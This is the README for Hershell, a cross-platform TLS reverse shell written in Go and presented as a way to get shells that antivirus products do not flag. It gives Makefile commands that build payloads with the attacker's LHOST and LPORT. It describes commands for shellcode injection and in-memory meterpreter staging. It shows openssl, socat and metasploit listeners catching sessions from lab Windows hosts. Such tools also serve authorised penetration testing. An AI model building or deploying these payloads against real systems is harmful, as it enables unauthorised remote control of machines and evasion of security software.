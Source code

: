 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).

It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.

The goal of this project is to get a simple reverse shell, which can work on multiple systems,

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable (PE 32 bits)
- ``windows64`` : builds a windows 64 bits executable (PE 64 bits)
- ``linux32`` : builds a linux 32 bits executable (ELF 32 bits)
- ``linux64`` : builds a linux 64 bits executable (ELF 64 bits)
- ``macos`` : builds a mac os 64 bits executable (Mach-O)

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

### Using the shell

Once executed, you will be provided with a remote shell.
This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it (Windows only at the moment).
* ``meterpreter IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp meterpreter from metasploit, and execute the shellcode in memory.
* ``exit`` : exit gracefully

## Examples

First of all, you will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=sysdream.com/O=Sysdream/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Custom target
$ make GOOS=windows GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Custom target
$ make GOOS=linux GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
$ make macos LHOST=192.168.0.12 LPORT=1234
```

## Listeners

On the server side, you can use the openssl integrated TLS server:

```bash
$ openssl s_server -cert server.pem -key server.key -accept 1234
Using default temp DH parameters
ACCEPT
bad gethostbyaddr
-----BEGIN SSL SESSION PARAMETERS-----
MHUCAQECAgMDBALALwQgsR3QwizJziqh4Ps3i+xHQKs9lvp5RfsYPWjEDB68Z4kE
MHnP0OD99CHv2u27THKvCHCggKEpgrPnKH+vNGJGPJZ42QylfkekhSwY5Mtr5qYI
5qEGAgRYgSfgogQCAgEspAYEBAEAAAA=
-----END SSL SESSION PARAMETERS-----
Shared ciphers:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES128-SHA:ECDHE-ECDSA-AES128-SHA:ECDHE-RSA-AES256-SHA:ECDHE-ECDSA-AES256-SHA:AES128-GCM-SHA256:AES256-GCM-SHA384:AES128-SHA:AES256-SHA:ECDHE-RSA-DES-CBC3-SHA:DES-CBC3-SHA
Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Shared Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Supported Elliptic Curve Point Formats: uncompressed
Supported Elliptic Curves: P-256:P-384:P-521
Shared Elliptic curves: P-256:P-384:P-521
CIPHER is ECDHE-RSA-AES128-GCM-SHA256
Secure Renegotiation IS supported
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or even better, use socat with its __readline__ module, which gives you a handy history feature:

```bash
$ socat readline openssl-listen:1234,fork,reuseaddr,verify=0,cert=server.pem
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or, and this is great, use a metasploit handler:

```bash
[172.17.0.2][Sessions: 0][Jobs: 0]: > use exploit/multi/handler
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set payload python/shell_reverse_tcp_ssl
payload => python/shell_reverse_tcp_ssl
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set lhost 192.168.122.1
lhost => 192.168.122.1
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set lport 4444
lport => 4444
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set handlersslcert /tmp/data/server.pem
handlersslcert => /tmp/data/server.pem
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set exitonsession false
exitonsession => false
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > exploit -j
[*] Exploit running as background job.

[-] Handler failed to bind to 192.168.122.1:4444
[*] Started reverse SSL handler on 0.0.0.0:4444
[*] Starting the payload handler...
[172.17.0.2][Sessions: 0][Jobs: 1]: exploit(handler) >
[*] Command shell session 1 opened (172.17.0.2:4444 -> 172.17.0.1:51995) at 2017-02-09 12:07:51 +0000
[172.17.0.2][Sessions: 1][Jobs: 1]: exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\lab1\Downloads>whoami
whoami
desktop-jcfs2ok\lab1

C:\Users\lab1\Downloads>
```

You can then use the ``sessions -u <id>`` command to upgrade to a meterpreter shell.
